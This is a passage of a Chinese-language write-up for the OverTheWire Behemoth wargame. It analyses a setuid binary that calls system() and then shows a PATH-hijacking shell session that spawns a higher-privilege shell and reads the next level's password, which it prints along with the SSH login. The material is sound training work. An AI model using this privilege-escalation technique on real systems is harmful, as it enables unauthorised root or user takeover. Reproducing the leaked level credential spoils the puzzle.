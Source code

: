 ```cpp
    v3 = geteuid();
    v4 = geteuid();
    setreuid(v4, v3);
    system(buffer);
  }
  sleep(2000u);
  qmemcpy(buffer, "cat  ", 5);
  v5 = geteuid();
  v6 = geteuid();
  setreuid(v6, v5);
  system(buffer);
  return 0;
}
```

每个函数查一下linux手册看一下功能。可以推断出程序大概逻辑是：

1. buffer里面写入`touch $pid`
2. name的值就是pid，lstat因为没有这个文件会返回FFFF，条件判断会一直判断为真。
3. 无脑执行system(touch $pid).

    关于setreuid函数的参数,Real User ID, Effective UserId,Saved User ID 可以参考[Difference between Real User ID, Effective User ID and Saved User ID](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id)

所以我们可以创建一个假的touch文件,写入:
```
/bin/sh
```

执行这个touch的话,系统会执行`/bin/sh`。关于这个和shellbang的关系，可以参考[Why should the shebang line always be the first line?](https://stackoverflow.com/questions/12910744/why-should-the-shebang-line-always-be-the-first-line)。

```bash
behemoth2@behemoth:~$ cd /tmp/
# 不要有其他字符,之前包括"."号失败了。
behemoth2@behemoth:/tmp$ cd /tmp/ZYV0tpD7uD
# 创建假的touch 
behemoth2@behemoth:/tmp/ZYV0tpD7uD$ echo "/bin/sh" > touch
behemoth2@behemoth:/tmp/ZYV0tpD7uD$ chmod +x touch
behemoth2@behemoth:/tmp/ZYV0tpD7uD$ export PATH=/tmp/ZYV0tpD7uD:$PATH
behemoth2@behemoth:/tmp/ZYV0tpD7uD$ /behemoth/behemoth2
$ whoami	
behemoth3
$ cat /etc/behemoth_pass/behemoth3
nieteidiel
```

## Behemoth 03 

**SSH :** ssh behemoth3@narnia.labs.overthewire.org -p 2221

**Pass :** nieteidiel
